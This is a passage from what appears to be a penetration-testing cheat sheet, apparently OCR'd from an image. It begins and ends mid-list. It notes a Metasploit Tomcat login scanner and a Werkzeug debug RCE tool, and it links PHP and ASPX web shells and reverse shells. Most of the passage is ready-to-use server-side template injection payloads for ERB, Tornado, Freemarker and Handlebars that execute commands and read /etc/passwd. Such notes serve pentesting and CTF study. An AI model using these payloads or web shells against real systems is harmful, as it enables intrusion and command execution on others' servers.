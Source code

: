     - msf : `scanner/http/tomcat_mgr_login`
### Werkzeug
- Debug Page RCE
    - https://github.com/its-arun/Werkzeug-Debug-RCE
### Defence
- Knockd
	- `/etc/knockd.conf`
	- `nc` port several time to knock
### Web Shell
- PHP
	- [b374k](https://github.com/b374k/b374k)
	- [windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)
- ASPX
	- https://raw.githubusercontent.com/SecWiki/WebShell-2/master/Aspx/awen%20asp.net%20webshell.aspx
	- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
- Adminer (SQLadmin)
    - https://www.adminer.org/
### SSTI
#### ERB (Ruby)
- Test
    - `<%= 7 * 7 %>`
- RCE
    - `<%= system("whoami") %>`

#### Tornado (Python)
- Test
    - `{{7*7}}`
- RCE
    - `{% import os %}{{os.popen("whoami").read()}}`

#### Freemarker (Java)
- Test
    - `${7*7}`
- RCE
    - `${"freemarker.template.utility.Execute"?new()("whoami")}`
- Read file from sandbox
    - `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}`
        - Use Cyberchef "From Decimal" to decode 
#### Handlebars (NodeJS)
- RCE
    ```
    {{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
          {{this.pop}}
          {{this.push (lookup string.sub "constructor")}}
          {{this.pop}}
          {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('id');"}}
            {{this.pop}}
            {{#each conslist}}
              {{#with (string.sub.apply 0 codelist)}}
                {{this}}
              {{/with}}
            {{/each}}
          {{/with}}
        {{/with}}
      {{/with}}